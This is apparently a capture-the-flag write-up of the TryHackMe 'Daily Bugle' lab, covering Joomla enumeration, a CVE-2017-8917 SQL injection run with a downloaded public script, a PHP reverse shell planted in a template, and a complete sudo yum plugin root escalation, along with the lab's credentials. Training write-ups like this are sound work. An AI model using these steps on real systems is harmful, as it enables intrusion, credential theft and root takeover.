## Introduction
Daily Bugle is a Hard difficulty room on TryHackMe that focuses on web exploitation and Linux privilege escalation. The path involves enumerating a Joomla CMS, exploiting a known SQL injection vulnerability to steal password hashes, cracking those hashes for initial access, and finally exploiting a misconfigured `yum` binary to obtain root.

* **Room Link:** [Daily Bugle](https://tryhackme.com/room/dailybugle)

---

## 1. Reconnaissance

### Nmap Scan
I started the engagement by running a comprehensive Nmap scan to identify open ports and services running on the target machine.

```bash
nmap -A -T4 -p- 10.82.177.219 -oA scan -Pn
```

**Scan Results:**

```plaintext
Starting Nmap 7.98 ( [https://nmap.org](https://nmap.org) ) at 2026-02-22 12:42 +0000
Nmap scan report for 10.82.177.219
Host is up (0.067s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
```
1. **22/tcp: SSH (OpenSSH 7.4)**

2. **80/tcp: HTTP (Apache 2.4.6 / PHP 5.6.40)**

3. **3306/tcp: MySQL (MariaDB)**

:::note
The Nmap output (robots.txt and http-generator) strongly indicates the web server is running the Joomla! Content Management System.
:::

## 2. Web Enumeration

### Exploring the Homepage

Navigating to the web server on port 80, I was greeted by the Daily Bugle homepage. The main article prominently features a security camera image and a headline answering our first objective.



> **Answer 1**
>
>> Access the web server, who robbed the bank?
>
>> `Spiderman`

### Directory Enumeration

Investigating the `robots.txt` file revealed a standard Joomla directory structure, including the `/administrator/` backend login panel. 



Without valid credentials, I needed to determine the exact version of the CMS to hunt for public exploits. The version wasn't readily apparent in the page source code.

### Version Discovery

After some research on Joomla enumeration (https://hackertarget.com/attacking-enumerating-joomla/#joomla-core-version), I learned that the core version is often exposed in an XML manifest file. I navigated to the following endpoint:

`/administrator/manifests/files/joomla.xml`



Reading the XML file, I successfully identified the Joomla version.

:::tip
When attacking Joomla, if automated tools like `joomscan` fail or you want to enumerate manually, `/administrator/manifests/files/joomla.xml` or `/language/en-GB/en-GB.xml` are the best places to find the exact version number.
:::

> **Answer 2**
>
>> What is the Joomla version?
>
>> `3.7.0`

## 3. Initial Exploitation (SQL Injection)

### Finding the Exploit

Knowing the target is running Joomla 3.7.0, I searched for known vulnerabilities. This specific version is notoriously vulnerable to **CVE-2017-8917**, an unauthenticated SQL Injection in the `com_fields` component. 

Following the room's hint to use a Python script instead of `sqlmap`, I located a public exploit on GitHub called **Joomblah** (`https://github.com/teranpeterson/Joomblah`).

:::note
**CVE-2017-8917:** This vulnerability allows an attacker to inject SQL commands into the backend database without needing to authenticate, often leading to the extraction of sensitive data like session tokens or administrator password hashes.
:::

### Running Joomblah

I downloaded the `joomblah.py` script and executed it against the target URL. 

```bash
# Downloading the exploit
wget https://raw.githubusercontent.com/teranpeterson/Joomblah/master/joomblah.py

# Running the exploit
python3 joomblah.py http://10.82.177.219
```
### Extracting and Cracking the Hash

Running the `joomblah.py` script successfully exploited the vulnerability and dumped the database contents, revealing the credentials for the Super User account.



* **Username:** `jonah`
* **Hash:** `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`

:::note
The `$2y$` prefix signifies that this is a **bcrypt** hash. Bcrypt is intentionally designed to be slow and computationally expensive to resist brute-force attacks, so cracking it might take a minute or two.
:::

Given the hardware-intensive nature of cracking bcrypt locally, I opted to check public cracked hash databases first to save CPU resources. I submitted the hash to `hashes.com`, which had it in its database and instantly returned the plaintext password.



> **Answer 3**
>
>> What is Jonah's cracked password?
>
>> `spiderman123`

After using the credentials found , I have successfully logged in.



## 4. Initial Access (Reverse Shell)

### Exploiting Joomla Templates
With administrative access to the Joomla backend, my next objective was to establish a reverse shell on the underlying system. Joomla allows administrators to modify the source code of the site's frontend templates directly from the browser. 

I navigated to **Extensions > Templates > Templates** and selected the default **beez3** template. I chose to edit the `error.php` file, replacing its legitimate PHP code with a standard PHP reverse shell payload, configured with my VPN IP and listening port (9001).




:::tip
Joomla stores its frontend templates in the `/templates/` directory at the web root. By knowing the template name (`beez3`) and the edited file (`error.php`), the malicious code can be executed simply by browsing to that specific URL.
:::

### Triggering the Payload
After saving the modified template file, I set up a Netcat listener on my attack machine.

```bash
ncat -lnvp 9001
```

I then triggered the payload by navigating to the file's location in the browser:
`http://10.82.177.219/templates/beez3/error.php`


**Result** --> The web server executed the PHP code, and I successfully caught a reverse shell connection.




### Shell Stabilization

Upon receiving the connection, the shell was limited (non-interactive). I stabilized it using Python to spawn a fully interactive TTY.

```bash

python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# (Ctrl+Z to background)
stty raw -echo; fg

```

## 5. Lateral Movement (jjameson)

### Enumerating Local Users

While exploring the file system as the apache user, I checked the /home/ directory to identify potential targets for privilege escalation. I discovered a user directory for jjameson. However, my current privileges did not allow me to read the contents of their home folder.




To find a way to pivot to this user, I navigated to the web application's root directory (/var/www/html/) to look for sensitive files.

:::tip
In CMS environments like Joomla or WordPress, core configuration files (configuration.php or wp-config.php) are prime targets because they invariably contain plaintext backend database credentials.
:::

Reading the configuration.php file revealed the database user (root) and its password.

```bash
cat /var/www/html/configuration.php | grep password
# Output: public $password = 'nv5uz9r3ZEDzVjNu';
```

**Password Reuse**

I initially used these credentials to log into the MySQL database, but further enumeration there didn't yield any immediate escalation paths. Suspecting a classic case of password reuse, I tried switching to the jjameson user account using the discovered database password.

```bash
su jjameson
# Password: nv5uz9r3ZEDzVjNu
```

Success! The password was valid, and I successfully moved laterally to the jjameson account.

Retrieving the User Flag
Now authenticated as jjameson, I navigated to the user's home directory and successfully retrieved the user flag.



> **Answer 4**
>
>> What is the user flag?
>
>> `27a260[REDACTED]80442e`


## 6. Privilege Escalation (Root)

**Enumerating Sudo Privileges**:
After gaining access as the jjameson user, my first step to escalate privileges was to check what commands the user is permitted to run as root using sudo.

```bash
sudo -l
```



The output revealed that `jjameson` can execute the `yum` package manager as `root`.

Exploiting Yum via Custom Plugins (GTFOBins)
I referenced GTFOBins for /usr/bin/yum and found that yum allows the loading of custom Python plugins. By creating a malicious plugin and executing yum with sudo, we can force the application to execute arbitrary Python code as the root user.

I executed the following block of commands to set up the malicious plugin and trigger the exploit:

```bash

# 1. Create a temporary directory
TF=$(mktemp -d)

# 2. Create a custom yum configuration file pointing to the temp directory
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

# 3. Create the plugin configuration file to enable it
cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

# 4. Create the malicious Python plugin that spawns a bash shell
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/bash','/bin/bash')
EOF

# 5. Execute yum with sudo, loading the malicious configuration and plugin
sudo yum -c $TF/x --enableplugin=y

```



The malicious plugin was loaded and executed by yum running as root, immediately dropping me into a root shell.

### Retrieving the Root Flag

With full administrative control over the machine, I navigated to the root directory and retrieved the final flag.



> **Answer 5**
>
>> What is the root flag?
>
>> `eec3d53[REDACTED]fa6f79`

**Happy Hacking fellas :)**


